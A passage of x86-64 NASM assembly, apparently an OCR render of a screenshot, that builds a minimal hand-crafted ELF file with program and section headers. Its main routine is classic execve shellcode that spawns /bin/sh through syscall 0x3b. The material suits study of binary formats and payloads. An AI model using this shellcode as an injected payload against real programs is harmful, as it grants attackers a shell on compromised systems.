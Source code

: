 ```
            dq      dynamicsize                     ;   p_filesz
            dq      dynamicsize                     ;   p_memsz
            dq      0x1000                          ;   p_align

main:
    _start:
            xor rsi,rsi
            cdq
            push rsi

            mov rdi , 0x68732f6e69622f
            push rdi
            push rsp
            pop rdi

            push rsi
            push rdi
            push rsp
            pop rsi 

            push 0x3b
            pop rax
            syscall

mainsize    equ     $ - main

sectionHeaders:
    section_dynsym:
            dd      1               ;sh_name
            dd      11              ;sh_type DYNSYM
            dq      7               ;sh_flags rx
            dq      dynsym          ;sh_addr
            dq      dynsym          ;sh_offset
            dq      dynsymsize      ;sh_size
            dd      3               ;sh_link
            dd      1               ;sh_info
            dq      1               ;sh_addralign
            dq      24              ;sh_entsize

    section_text:
            dd      19              ;sh_name
            dd      1               ;sh_type PROGBITS
            dq      7               ;sh_flags rx
            dq      main            ;sh_addr
            dq      main            ;sh_offset
            dq      mainsize        ;sh_size
            dd      3               ;sh_link
            dd      0               ;sh_info
            dq      1               ;sh_addralign
            dq      0               ;sh_entsize

    section_shstrtab:
            dd      9               ;sh_name
            dd      3               ;sh_type STRTAB
            dq      7               ;sh_flags rx
            dq      shstrtab        ;sh_addr
            dq      shstrtab        ;sh_offset
            dq      shstrtabsize    ;sh_size
            dd      0               ;sh_link
            dd      0               ;sh_info
            dq      1               ;sh_addralign
            dq      0               ;sh_entsize

```